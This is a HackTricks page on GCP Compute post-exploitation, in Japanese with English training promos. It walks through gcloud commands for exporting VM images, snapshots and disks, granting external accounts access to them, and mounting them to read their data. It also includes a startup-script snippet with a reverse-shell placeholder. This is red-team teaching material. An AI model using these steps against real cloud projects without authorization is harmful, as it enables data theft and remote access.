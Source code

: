 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

ComputeとVPC（ネットワーキング）に関する詳細情報は、以下を確認してください：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 画像をローカルにエクスポートおよび検査する

これにより、攻撃者は**既存の画像に含まれるデータにアクセス**したり、**実行中のVMの新しい画像を作成**して、そのデータにアクセスすることができます。実行中のVMにアクセスすることなく。

VM画像をバケットにエクスポートし、その後ダウンロードしてローカルにマウントすることが可能です。 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行するには、攻撃者はストレージバケットに対する権限が必要であり、確実に**cloudbuildに対する権限**が必要です。これは**サービス**であり、エクスポートを実行するように求められます。\
さらに、これが機能するためには、codebuild SAとcompute SAが特権的な権限を持っている必要があります。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` は以下の権限が必要です：

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

そして、SA `<project-id>-compute@developer.gserviceaccount.com` は以下の権限が必要です：

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### スナップショットとディスクをローカルにエクスポートおよび検査する

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換する**ことは可能であり、**前のセクション**に従って、そのイメージをエクスポートしてローカルで検査することができます。

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VMを作成してイメージを検査する

攻撃者が**イメージを作成した**場所から**イメージに保存されたデータ**や**実行中のVM**にアクセスすることを目的として、外部アカウントにイメージへのアクセスを付与することが可能です:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
そして、それから新しいVMを作成します：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
もし画像に対して外部アカウントのアクセスを与えられなかった場合、被害者のプロジェクトでその画像を使用してVMを起動し、**メタデータにリバースシェルを実行させる**ことで、パラメータを追加して画像にアクセスすることができます:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### スナップショット/ディスクをVMにアタッチして検査する

**ディスクまたはスナップショットに保存されたデータにアクセスすることを目的として、スナップショットをディスクに変換し、ディスクをイメージに変換し、前の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセスを付与することができます**（出発点がスナップショットの場合は、スナップショットへのアクセスを付与するか、そこからディスクを作成します）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**インスタンスにディスクをアタッチ**する:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
ディスクをVM内にマウントする:

1.  **VMにSSH接続する**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **ディスクを特定する**: VM内に入ったら、ディスクデバイスをリストして新しいディスクを特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウントする**（新しいまたは生のディスクの場合）:
*   マウントポイントを作成する:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   ディスクをマウントする:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

もし**スナップショットやディスクに外部プロジェクトへのアクセスを与えることができない場合**、**スナップショット/ディスクと同じプロジェクト内のインスタンスでこれらの操作を実行する必要があるかもしれません**。

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。**

</details>
{% endhint %}
